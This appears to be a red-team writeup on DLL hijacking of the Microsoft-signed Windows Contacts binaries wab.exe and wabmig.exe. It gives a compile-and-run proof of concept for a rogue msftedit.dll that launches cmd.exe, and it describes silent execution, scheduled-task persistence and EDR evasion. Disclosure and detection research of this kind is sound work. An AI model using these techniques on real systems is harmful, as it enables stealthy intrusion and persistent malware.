




## WAB!

Recently when looking for some bugs to leverage red teaming, I found the following Windows binaries load several libraries from the application directory. Note that these files are also digitally signed by Microsoft. 

1. `C:\Program Files\Windows Mail\wabmig.exe`
2. `C:\Program Files\Windows Mail\wab.exe`

Attackers can leverage this behavior to perform DLL hijacking / proxying attacks and obtain code execution on a target system, establish persistence and/or distribute malware. 

Sigcheck output:
```
PS C:\Program Files\Windows Mail> sigcheck .\wab.exe

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Windows Mail\wab.exe:
        Verified:       Signed
        Signing date:   2:52 AM 2/2/2024
        Publisher:      Microsoft Windows
        Company:        Microsoft Corporation
        Description:    Windows Contacts
        Product:        Microsoft� Windows� Operating System
        Prod version:   10.0.19041.3636
        File version:   10.0.19041.3636 (WinBuild.160101.0800)
        MachineType:    64-bit
```

### Vanilla DLL Hijack PoC

1. Create a file named "test.c" wherever you want, containing a DLL PoC, e.g.:
```c
#pragma once
#include <windows.h>
#include <WinUser.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        MessageBoxW(NULL, L"TEST", L"TEST", MB_OK);
        system("cmd.exe");
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

2. Open the Developer Command Prompt and navigate to the directory test.c was saved to
3. Compile test.c into msftedit.dll using the following command:
`cl /LD test.c /Fe:msftedit.dll User32.lib`
4. Copy `wab.exe` and/or `wabmig.exe` to the same directory as the new `msftedit.dll`
4. Execute wab.exe / wabmig.exe
5. Note the messagebox displaying "TEST", followed by a Command Prompt window indicating the malicious `msftedit.dll` file has been loaded by the application.



As this is an application directory hijack, it is possible to host the vulnerable applications and DLLs on remote file shares, or within ISO containers to perform hijacking attacks. This is pretty sweet as it allows malware delivery options that leverage signed MS bins :) Sadly signing isn't respected from UNC paths.

Additionally, running the wab.exe application with the `/SyncLogonPicture` CLI switch avoids creating a GUI window, allowing for a stealthier form of execution-- one that's suitable for persistence.

## Disclosure

I reported this out to MS as a CWD hijack initially-- according to their [DLL planting triage](https://msrc.microsoft.com/blog/2018/04/triaging-a-dll-planting-vulnerability/) post this seemed to fit the bill for a CWD. Opening an associated file type like `.contact` didn't cause the behavior though, so I came to the realize it's what they'd consider to be an application hijack. As far as MS is concerened, this warrants *no fix at all* and a severity rating of `none`.



Better luck next time, I guess!

## So is this even useful?

In terms of initial access... maaaybeeee. For persistence? Yes and there are a couple use cases I can immediately apply. 

Due to the presence of a few undocumented CLI switches it's possible to launch wab/mig, and their corresponding DLL hijacks, without opening any windows. As mentioned previously, the `/SyncLogonPicture` switch does... *something*, and runs silently, which means a scheduled task like the following looks pretty innocuous, no?



Placing a malicious `msftedit.dll` in `C:\Program Files\Windows Mail\` means every time this task is run, your payload runs too :) Sure, that requires you have local admin, womp womp, but another option would be to just copy `wab.exe` somewhere else, maybe `%appdata%`, and do the same thing. Place the DLL, make the task.

You might think: 

    "why don't you just run an exe if you can place something on disk?" 

You could definitely do that, but in the land age of telemetry, reducing *any footprint* is potentially useful. Running a Microsoft *signed* executable shouldn't set off any alarms immediately, which in turn might help prevent high fidelity detections. A scheduled task that also **seems relevant** to what the signed binary is actually doing may further disguise this persistence mechanism, and blue teams may not (hopefully) identify the true malicious nature of the task, deferring to it's apparent legitimacy.

Anyway, lots of cheeky ways of going about this, some more useful than others. I'll take anything to keep the EDR at bay during ops, though!
